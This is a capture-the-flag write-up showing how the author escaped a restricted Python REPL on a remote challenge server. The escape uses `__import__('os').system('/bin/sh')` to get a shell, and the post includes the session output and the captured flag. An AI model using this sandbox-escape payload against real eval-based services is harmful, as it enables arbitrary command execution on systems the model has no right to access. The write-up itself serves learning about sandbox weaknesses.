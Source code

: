 
# Bet2
Upon connection to the server and you will be presented with some sort of REPL program.
After fiddling with it a little bit and entering some builtin functions, it looks like a Python REPL.

    root@beer:~/crypto# nc ctf.safebreach.com 31338
	>>> print
	<built-in function print>
	>>> eval
	<built-in function eval>
	>>> getattr
	<built-in function getattr>

So the most natural thing to do here is use `system` to get a shell, right? Well, not so fast:

    >>> system('/bin/sh')
	name 'system' is not defined
	>>> eval('system("/bin/sh")')
	name 'system' is not defined
	>>> import subprocess
	invalid syntax (<string>, line 1)

The REPL won't let me use `system`, as it's undefined in the context, and importing modules using the `import` keyword doesn't seem to work at all.
Python sandbox escape has been discussed many times before. There is more than one way to import a module, or call builtin functions.
In this case, what I did was use the `__import__` function to import the `os` module and execute `system`.

    >>> __import__
	<built-in function __import__>
	>>> __import__('os').system('/bin/sh')
	/bin/sh: can't access tty; job control turned off
	/pwn $ cat flag
	cat flag
	CTF{9a4f1813c1874de8aaz3e8407d93ca48}

I recommend reading [this DigitalWhisper (Hebrew) article](https://www.digitalwhisper.co.il/files/Zines/0x5A/DW90-5-PySandbox.pdf) on Python Sandbox escaping if you want to learn more on the subject.
